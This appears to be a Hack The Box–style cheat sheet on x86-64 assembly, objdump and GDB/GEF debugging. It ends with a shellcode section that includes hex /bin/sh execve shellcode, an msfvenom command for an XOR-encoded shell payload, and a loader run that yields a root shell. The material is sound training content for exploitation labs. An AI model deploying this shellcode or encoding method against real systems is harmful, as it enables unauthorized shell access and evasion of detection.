 # Assembly Language Cheat Sheet:

## Create Assembly Code File:

nano mov.s


### Assemble file and make it executable: (.s, .as, .asm)

nasm -f elf64 mov.s

ld -o mov mov.o

chmod 777 mov


### Disassemble executable file:

objdump -M intel -d mov

objdump -sj .data mov

objdump -M intel --no-show-raw-insn --no-addresses -d mov

### Install GEF for easy debugging:

wget -O ~/.gdbinit-gef.py -q https://gef.blah.cat/py

echo source ~/.gdbinit-gef.py >> ~/.gdbinit

Run GDB with GEF:

gdb -q .\mov


### Look at functions an variables:

gef➤  info functions

gef➤  info variables

Disassemble function:

gef➤  disas _start

Set Breakpoint, Run and Step-Into:

gef➤  b _start

gef➤  r

gef➤  si

gef➤  step

### Examine registers or variables:
Argument 	Description 	Example
Count 	The number of times we want to repeat the examine 	2, 3, 10
Format 	The format we want the result to be represented in 	x(hex), s(string), i(instruction)
Size 	The size of memory we want to examine 	b(byte), h(halfword), w(word), g(giant, 8 bytes)

gef➤  x/4ig $rip

gef➤  x/s 0x402000

gef➤  registers

Write values to addresses:

gef➤  help patch


### Searchable Linux Syscall table

https://filippo.io/linux-syscall-table/

## ShellCode:
Install pwn tool to run shell code

/'''
[/htb]$ pip3 install pwn

[/htb]$ python3

>>> from pwn import *

>>> context(os="linux", arch="amd64", log_level="error")

>>run_shellcode(unhex('4831db536a0a48b86d336d307279217d5048b833645f316e37305f5048b84854427b6c303464504889e64831c0b0014831ff40b7014831d2b2190f054831c0043c4030ff0f05')).interactive()

HTB{l04d3d_1n70_m3m0ry!}

>>> dir(shellcraft)
'''/

### Msfvenom encoding 

`msfvenom -l encoders`

`msfvenom -p 'linux/x64/exec' CMD='sh' -a 'x64' --platform 'linux' -f 'hex' -e 'x64/xor'`

/'''
[/htb]$ python3 loader.py 
'4831c94881e9faffffff488d05efffffff48bbf377c2ea294e325c48315827482df8ffffffe2f4994c9a7361f51d3e9a19ed99414e61147a90aac74a4e32147a9190022a4e325c801fc2bc7e06bbbafc72c2ea294e325c'

$ whoami

root
'''/

If we had a custom shellcode that we wrote, we could use msfvenom to encode it as well, by writing its bytes to a file and then passing it to msfvenom with -p -, as follows:

`[/htb]$ python3 -c "import sys; sys.stdout.buffer.write(bytes.fromhex('b03b4831d25248bf2f62696e2f2f7368574889e752574889e60f05'))" > shell.bin`

`$ msfvenom -p - -a 'x64' --platform 'linux' -f 'hex' -e 'x64/xor' < shell.bin`

Finally, we can always search online resources like [Shell-Storm](http://shell-storm.org/shellcode/index.html) or [Exploit DB](https://www.exploit-db.com/shellcodes) for existing shellcodes.

For example, if we search Shell-Storm for a /bin/sh shellcode on Linux/x86_64, we will find several examples of varying sizes, like this 27-bytes shellcode. We can search Exploit DB for the same, and we find a more optimized 22-bytes shellcode, which can be helpful if our Binary Exploitation only had around 22-bytes of overflow space. We can also search for encoded shellcodes, which are bound to be larger.


